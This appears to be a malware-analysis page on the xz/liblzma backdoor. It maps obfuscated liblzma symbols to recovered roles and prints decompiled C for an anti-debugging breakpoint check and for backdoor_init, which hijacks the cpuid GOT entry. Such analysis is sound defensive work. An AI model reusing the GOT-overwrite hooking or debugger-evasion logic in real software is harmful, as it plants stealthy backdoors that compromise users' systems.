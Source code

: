 - `Llzma_delta_props_decoder` -> `backdoor_ctx_save`

- `Llzma_block_param_encoder_0` -> `backdoor_init`
- `Llzma_delta_props_encoder` -> `backdoor_init_stage2`

- `Llzma_simple_props_size_part_0` -> `is_gnu_relro`


-----
##### Prefix Trie (https://social.hackerspace.pl/@q3k/112184695043115759)
- `Llzip_decode_1` -> `table1`
- `Lcrc64_clmul_1` -> `table2`	
-----

- `Llzma_delta_decoder_init_part_0` -> `backdoor_ctx_init`


- `Llzma_block_buffer_encode_0` -> `check_software_breakpoint`
- `Lstream_decoder_memconfig_part_1` -> `get_lzma_allocator`

- `Llzma_simple_props_encode_1` -> `j_tls_get_addr`
- `Llzma_block_uncomp_encode_0` -> `rodata_ptr_offset`

- `Llzma12_coder_1` -> `global_ctx`

- `Llzma_index_memusage_0` -> `apply_entries`
- `Llzma_check_init_part_0` -> `apply_one_entry`
- `Lrc_read_init_part_0` -> `apply_one_entry_internal`

- `Llzip_decoder_memconfig_part_0` -> `installed_func_0`
- `Llzma_index_stream_size_1` -> `installed_func_1`
- `Lindex_decode_1` -> `installed_func_2`
- `Lindex_encode_1` -> `installed_func_3`

- `Llzma2_decoder_end_1` -> `apply_one_entry_ex`

----
##### ELF parsing
- `Lget_literal_price_part_0` -> `parse_elf`
- `Lparse_bcj_0` -> `process_elf_seg`
- `Lmicrolzma_encoder_init_1` -> `parse_elf_init`
- `Llzma_filter_decoder_is_supported.part.0` -> `parse_elf_invoke`
- `Llzma_stream_header_encode_part_0` -> `get_ehdr_address`
- `Lsimple_coder_update_0` -> `table_get`
- `Lcrc_init_0` -> `table_lookup_multi`
- `.Lcrc64_generic.0` -> `table_lookup_ex`
- `Llz_stream_decode` -> `count_1_bits`
----

- `Llzma_stream_flags_compare_1` -> `get_rodata_ptr`

- `Llzma2_encoder_init.1` -> `apply_method_1`
- `Llzma_memlimit_get_1` -> `apply_method_2`

- `Lx86_code_part_0` -> `code_dasm`


-----
Software Breakpoint check, method 1
-----

This method checks if the instruction `endbr64`, which is always present at the beginning of every function in the malware, is overwritten.
GDB would typically do this when inserting a software breakpoint

```c
/*** address: 0xAB0 ***/
__int64 check_software_breakpoint(_DWORD *code_addr, __int64 a2, int a3)
{
  unsigned int v4;

  v4 = 0;
  // [for a3=0xe230], true when *v = 0xfa1e0ff3 (aka endbr64)
  if ( a2 - code_addr > 3 )
    return *code_addr + (a3 | 0x5E20000) == 0xF223;// 5E2E230
  return v4;
}
```

----
Function backdoor_init (0xA784

```c
__int64 backdoor_init(rootkit_ctx *ctx, DWORD *prev_got_ptr)
{
  _DWORD *v2;
  __int64 runtime_offset;
  bool is_cpuid_got_zero;
  void *cpuid_got_ptr;
  __int64 got_value;
  _QWORD *cpuid_got_ptr_1;

  ctx->self = ctx;
  // store data before overwrite
  backdoor_ctx_save(ctx);
  ctx->prev_got_ptr = ctx->got_ptr;
  runtime_offset = ctx->head - ctx->self;
  ctx->runtime_offset = runtime_offset;
  is_cpuid_got_zero = (char *)*(&Llzma_block_buffer_decode_0 + 1) + runtime_offset == 0LL;
  cpuid_got_ptr = (char *)*(&Llzma_block_buffer_decode_0 + 1) + runtime_offset;
  ctx->got_ptr = cpuid_got_ptr;
  if ( !is_cpuid_got_zero )
  {
    cpuid_got_ptr_1 = cpuid_got_ptr;
    got_value = *(QWORD *)cpuid_got_ptr;
    // replace with Llzma_delta_props_encoder (backdoor_init_stage2)
    *(QWORD *)cpuid_got_ptr = (char *)*(&Llzma_block_buffer_decode_0 + 2) + runtime_offset;
    // this calls Llzma_delta_props_encoder due to the GOT overwrite
    runtime_offset = cpuid((unsigned int)ctx, prev_got_ptr, cpuid_got_ptr, &Llzma_block_buffer_decode_0, v2);
    // restore original
    *cpuid_got_ptr_1 = got_value;
  }
  return runtime_offset;
}
```
----